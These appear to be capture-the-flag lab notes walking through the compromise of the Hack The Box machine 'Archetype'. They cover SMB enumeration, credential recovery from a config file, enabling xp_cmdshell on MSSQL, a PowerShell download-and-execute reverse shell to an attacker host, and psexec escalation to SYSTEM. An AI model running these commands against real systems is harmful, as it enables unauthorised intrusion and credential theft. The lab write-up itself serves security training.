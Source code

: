 # Archetype
---
### Initial Enumeration and Foothold

Running [[Nmap]] on Target IP  **10.10.10.27**
```bash
nmap -sV 10.10.10.27

PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000
```

Attempting to connect to 445 filsehare using [[SMBClient]]
```bash
smbclient -N -L \\\\10.10.10.27\\

| Sharename | Type | Comment       |
| --------- | ---- | ------------- |
| ADMIN$    | Disk | Remote Admin  |
| backups   | Disk |               |
| C$        | Disk | Default share |
| IPC$      | IPC  | Remote IPC    |

smbclient -N \\\\10.10.10.27\\backups
smb: \> dir
  .                                   D        0  Mon Jan 20 12:20:57 2020
  ..                                  D        0  Mon Jan 20 12:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 12:23:02 2020
smb: \> get prod.dtsConfig 
```

This file `prod.dtsConfig` provides the following credentials from an SQL server:
>Password=M3g4c0rp123
>User ID=ARCHETYPE\sql_svc
>Provider=SQLNCLI10

We can use [[impacket-mssqlclient]]  to access the SQL Server
```bash
impacket-mssqlclient ARCHETYPE/sql_svc:M3g4c0rp123@10.10.10.27 -windows-auth
```

Configure to get RCE
```bash
SQL> EXEC sp_configure 'Show Advanced Options', 1;
SQL> reconfigure;
SQL> sp_configure;
SQL> EXEC sp_configure 'xp_cmdshell', 1reconfigure;
SQL> xp_cmdshell "whoami"
```
>archetype\sql_svc

Setup reverse shell listener on attacker with [[Netcat]]
```bash
nc -lnvp 1234
```

On attacking machine, create [[shell.ps1]] and host on webserver
```bash
vim shell.ps1
...
python3 -m http.server 8000
```

and execute SQL to connect to reverse shell
```bash
SQL> xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.25:8000/shell.ps1\");"
```

---

### Privilege Escalation

Powershell history file reveals admin credentials
```bash
cat C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
```

Connect to powershell using [[impacket-psexec]]
```bash
impacket-psexec 'administrator:MEGACORP_4dm1n!!@10.10.10.27'
...
C:\Windows\system32>whoami
nt authority\system
```

Obtain `root.txt` Flag
```bash
C:\Users\Administrator\Desktop>type root.txt
```

---
Next Lab: [[02-Oopsie]]